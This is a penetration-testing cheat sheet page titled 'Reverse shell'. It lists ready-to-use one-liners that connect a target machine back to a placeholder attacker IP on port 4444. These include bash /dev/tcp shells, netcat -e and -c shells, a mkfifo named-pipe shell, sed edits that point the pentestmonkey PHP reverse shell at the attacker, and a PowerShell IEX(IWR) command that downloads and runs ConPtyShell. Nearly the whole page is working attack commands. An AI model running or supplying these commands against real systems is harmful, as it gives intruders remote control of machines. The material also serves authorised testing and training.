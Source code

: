 # Reverse shell

[Go back](../index.md#remote-shell-)

<div class="row row-cols-md-2"><div>

Most reverse shell are connecting to a netcat server, for instance, you could run one on port 4444.

```shell!
$ nc -lvnp 4444
```

Then, you will have to configure your reverse shells to connect back to it. We consider the hacker IP to be `x.y.z.t`.
</div><div>

...
</div></div>

<hr class="sep-both">

## revshells.com

<div class="row row-cols-md-2"><div>

The best way to create reverse shells is to use the website [revshells](https://www.revshells.com/).

* Example: "Bash" client

```shell!
$ sh -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

* Example: "nc.exe -e" client

```shell!
PS> nc.exe x.y.z.t 4444 -e sh
```

➡️ Select one based on what command you can run on the target.
</div></div>

<hr class="sep-both">

## PHP reverse shell

<div class="row row-cols-md-2"><div>

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015). This is a well-known reference.

On Kali Linux, there is local copy in `/usr/share/webshells/php/`.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/x.y.z.t/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## netcat client

<div class="row row-cols-md-2"><div>

The most common usage is:

```ps
$ nc -c /bin/bash x.y.z.t 4444
```
</div><div>

Netcat option `-e` is often not available due to security measures.

```ps
$ nc x.y.z.t 4444 -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Linux targets

<div class="row row-cols-md-2"><div>

#### TCP socket

```shell!
$ /bin/bash -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

#### Named pipe

```shell!
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc x.y.z.t 4444 >/tmp/f
```
</div></div>

<hr class="sep-both">

## Windows targets

<div class="row row-cols-md-2"><div>

You can try [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) (0.7k ⭐).

```ps
PS> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing)
PS> Invoke-ConPtyShell x.y.z.t 4444
```
</div></div>